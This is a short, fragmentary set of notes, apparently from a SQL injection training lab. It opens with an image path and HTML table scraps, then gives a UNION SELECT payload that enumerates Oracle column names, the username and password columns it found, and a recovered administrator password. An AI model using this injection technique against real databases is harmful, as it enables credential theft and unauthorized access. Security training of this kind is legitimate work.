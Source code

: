                            <th>GUID</th>
                            <td>1</td>
                        </tr>
                        <tr>
                            <th>ISROLE</th>
                            <td>1</td>
                        </tr>
                        <tr>
                            <th>NAME</th>
                            <td>1

'union+select+column_name,+NULL+from+all_tab_columns+where+table_name+=+'USERS_DZGPMS'+--

we found those columns :
	|PASSWORD_JWSMLV|
	|USERNAME_CRBVOL|

ilz2ji6rwynrjmigi5dx
administrator